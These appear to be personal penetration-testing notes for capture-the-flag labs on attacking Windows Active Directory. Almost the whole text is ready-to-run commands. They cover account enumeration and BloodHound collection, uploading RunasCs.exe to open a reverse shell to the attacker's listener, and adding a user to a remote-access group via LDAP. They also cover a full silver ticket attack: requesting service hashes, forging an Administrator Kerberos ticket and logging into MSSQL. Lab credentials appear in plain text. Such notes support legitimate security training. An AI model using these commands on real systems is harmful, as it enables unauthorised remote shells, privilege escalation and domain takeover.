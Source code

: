 if creds are valid over smb, but not winrm/rdp, try enum4linux with them:
```
enum4linux -a -u "fmcsorley" -p "CrabSharkJellyfish192" 192.168.199.122
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.78.4
```

run bloodhound remotely
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```

want to move laterally and have low level (like svc) creds, but that user is not in Remote Users group (so cant execute commands remotely ie get winrm shell):
- host RunAsCs.exe on python server to upload:
	- `python -m http.server 80`
- set up listener:
	- `rlwrap -cAr nc -lvnp 6969`
- upload RunAsCs.exe to svc level shell:
	- `powershell -c wget 10.10.14.172/RunasCs.exe -outfile r.exe`
- run RunasCs.exe:
```
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.172:6969 cmd
```
- should create new shell in listener as c.bum
	- c.bum:Tikkycoll_431012284 are creds
	- 10.10.14.172 is tun0 on local machine

if creds are valid, but nxc doesn't show pwned for winrm, run ldeep:
```
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM" && deactivate
```
- adds user to remote access group, so evil-winrm should work afterward
- because of conflicting ldap3 python module with bloodhound, set up ldeep to run in virtual environment with alias so `&& deactivate` just exits that

***Silver Ticket***
have low level creds, check for SID(from `enum4linux` or `lookupsid.py`) and ServicePrincipalName (from `GetUserSPNs.py`) of user to make silver ticket
```
GetUserSPNs.py breach.vl/julia.wong:Computer1 -dc-ip 10.10.10.111 -request
```
- returns ntlmv2 hash (crack with `john`) and ServicePrincipalName like `MSSQLSVC/BREACH.VL:1433` used in `ticketer.py` command below:
```
lookupsid.py breach.vl/julia.wong:computer1@10.10.10.10
```
- copy Domain SID for `ticketer.py` command below
- get nthash from ntlm hash generator from password from https://codebeautify.org/ntlm-hash-generator
	- Trustno1 = 69596C7AA1E8DAEE17F8E78870E25A5C
- - make sure `/etc/hosts` reflects IP for Domain `BREACH.VL`
```
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
-domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl spn 'MSSQLSVC/BREACH.VL:1433@BREACH.VL' -user-id 500 Administrator
```
- will output "saving ticket in Administrator.ccache"
```
export KRB5CCNAME=/home/kali/Desktop/VulnLab/ldap/Administrator.ccache
```
- caches creds
```
mssqlclient.py breach.vl -k -no-pass -windows-auth
```
